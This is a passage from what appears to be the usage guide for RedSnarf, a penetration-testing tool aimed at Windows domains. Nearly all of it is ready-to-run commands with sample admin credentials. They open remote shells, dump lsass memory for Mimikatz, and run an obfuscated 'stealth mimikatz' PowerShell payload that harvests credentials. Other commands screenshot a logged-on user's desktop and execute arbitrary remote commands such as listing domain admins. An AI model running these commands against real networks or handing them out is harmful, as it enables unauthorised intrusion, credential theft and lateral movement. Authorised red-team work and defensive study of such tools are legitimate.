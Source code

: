 Find User - Live  

**/redsnarf.py -H range=10.0.0.1/24 -u administrator -p Password01 -d yourdomain.com -eL user.name**



Find User - Offline (searches pre downloaded information)  

**/redsnarf.py -H range=10.0.0.1/24 -u administrator -p Password01 -d yourdomain.com -eO user.name**



Display NT AUTHORITY\SYSTEM Tasklist  

**/redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -eT y**  



Screenshot the Desktop of a Remote Logged on Active User  

**/redsnarf.py -H ip=10.0.0.1 -u administrator -p Password01 -d yourdomain.com -eS y**  



Misc

=======================



Start a Shell on a machine using local administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d . -uD y**



Start a Shell on a machine using domain administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -uD y**



Retrieve a copy of lsass for offline parsing with Mimikatz on a machine using local administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d . -hL y**



Run stealth mimikatz, this option fires up a web-server to serve a powershell script, this is obfusctaed and encoded machine side, data doesnt touch disk - creds are grepped for in an easy to read style and echoed back to screen.  

**./redsnarf.py -H ip=192.168.198.162 -u administrator -p Password01 -cS y -hR y**



Run Custom Command  

Example 1  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -uX 'net user'**



Example 2 - Double Quotes need to be escaped with \  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -uX 'dsquery group -name \"domain admins\" | dsget group -members -expand'**
